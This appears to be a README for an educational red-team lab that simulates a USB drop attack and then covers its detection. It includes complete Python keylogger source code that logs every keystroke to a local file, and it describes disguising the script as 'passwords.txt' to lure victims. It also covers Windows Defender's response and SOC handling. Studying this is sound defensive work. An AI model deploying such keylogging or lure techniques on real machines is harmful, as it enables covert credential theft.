




# Python Keylogger / USB Drop Attack Simulation

**DISCLAIMER:** This project was performed solely on personal 
equipment in an isolated environment and for educational purposes 
only. This tool should not be used on any machine without explicit 
authorization. Using keyloggers without explicit authorization is 
illegal and unethical.

## Overview
This project simulates a red team USB drop attack, assuming the 
role of a malicious actor attempting to capture credentials and 
sensitive information from within a target organization. A Python 
keylogger was developed and deployed via a disguised USB shortcut 
to demonstrate how this attack vector works at a technical level 
and how defenders can detect and respond to it.

## Objectives
- Develop a keylogger in Python with the capabilities of
  capturing keystrokes and special characters onto a text file
- Simulate a USB drop attack with a keylogger disguised as an
  unsuspecting file to execute on the target machine
- Observe how Windows Defender responds to the threat
- Understand the attack from a red team and blue team perspective

## Tools and Technologies
- Python 3.14.3
- pynput library
- Windows 11
- Windows Defender
- USB removable media

## How It Works

### The Keylogger
The keylogger was built in Python with the 'pynput' library, listening
in the background for all keystrokes while running. All keystrokes are 
then logged into a locally saved text file with timestamps for further 
analysis. Special characters and inputs are also detected, but displayed 
separately when logged for readability.

```
# import libraries and such things
from pynput.keyboard import Key, Listener
import logging
import os

# set up basic logging config
log_file = os.path.join(os.path.expanduser("~"), "Documents", "log.txt")

logging.basicConfig(
    filename=log_file,
    level=logging.DEBUG,
    format="%(asctime)s - %(message)s"
)

# function for key presses and special keys
def on_press(key):
    try:
        logging.info(str(key.char))
    except AttributeError:
        if key == Key.space:
            logging.info(" ")
        elif key == Key.enter:
            logging.info("\n")
        elif key == Key.backspace:
            logging.info("[BACKSPACE]")
        else:
            logging.info(str(key))

# start listener
with Listener(on_press=on_press) as listener:
    listener.join()
```

## USB Deployment
Once the keylogger was developed, the ".py" file was disguised as a
text file named "passwords.txt", with the intention of luring a curious
person to open the unsuspecting file. Once the file was executed, a black
command prompt-style window would open on the user's screen and remain
stationary. While a more technically inclined user would end this program
rather quickly, this is okay for the purpose of this project.

The actual "keylogger.py" file has been set to be hidden on the USB drive,
remaining unseen to the majority of users. With this, only the malicious .txt file
is present, showcasing a common social engineering tactic used in real USB drop
attacks.

## Demonstration

### USB Contents
The USB drive, as seen by the target. Only the disguised shortcut is visible:



### Captured Keystrokes
The keylogger was able to successfully capture keystrokes from the
victim machine, as seen below:



### User input demonstration

Below shows the input from the user, which was captured into the local "log.txt"
file:



## Detection, Response, and Defense

### Windows Defender Response
Upon removing the Windows Defender exclusion placed on the D drive and
re-executing the keylogger, Windows Defender was able to take swift
action in killing the process and quarantining the file. 



### How a SOC Analyst Would Respond
After receiving an alert from Windows Defender, a SOC analyst would
take something along the lines of the following steps:
1. Identify the affected endpoint and isolate the machine if necessary
2. Investigate the process that was executed from the USB drive
3. Pull and analyze the "keylogger.py" file in a sandbox setting
4. Hopefully, notice the hard-coded "log.txt" file that was created
5. Look through the log.txt file on the affected machine to determine
   what was captured and whether it was only saved locally or exported
6. Escalate the incident if required

### Defense Recommendations
With an incident like this, a few security recommendations can be made.
First, the most important recommendation to make would be end-user training.
In social engineering, human nature is taken advantage of. Training users to
avoid plugging in any untrusted USB drives from outside the company will
drastically reduce the risk of an incident like this. Next, disabling all unused
USB ports on internal machines will reduce the risk of users plugging in any
external devices, including USB drives. Lastly, ensuring EDR signatures are up
to date is essential, as signature-based detection was able to catch and quarantine
this threat within a matter of seconds. 

## Limitations
When conducting this project, it was apparent that it had several limitations
that were worth noting. First, Windows 8 and above have USB autorun disabled
by default, resulting in the delivery of the payload needing to be manually
activated through social engineering rather than automatically. This keylogger
also required the target machine to have Python installed, which greatly reduces
effectiveness outside of a controlled environment. Lastly, captured keystrokes
were only stored locally on a text file rather than being exported. In turn,
the recovery of the text file would need to be manually accomplished 
physically or through remote methods.

## Conclusion
In conclusion, this project was able to simulate a USB drop attack from development
to detection. The keylogger was able to capture the victim's keystrokes and copy them 
onto a file for later analysis by the bad actor. This project highlights the 
importance of user training for physical, technical, and endpoint security, including 
Windows Defender. 


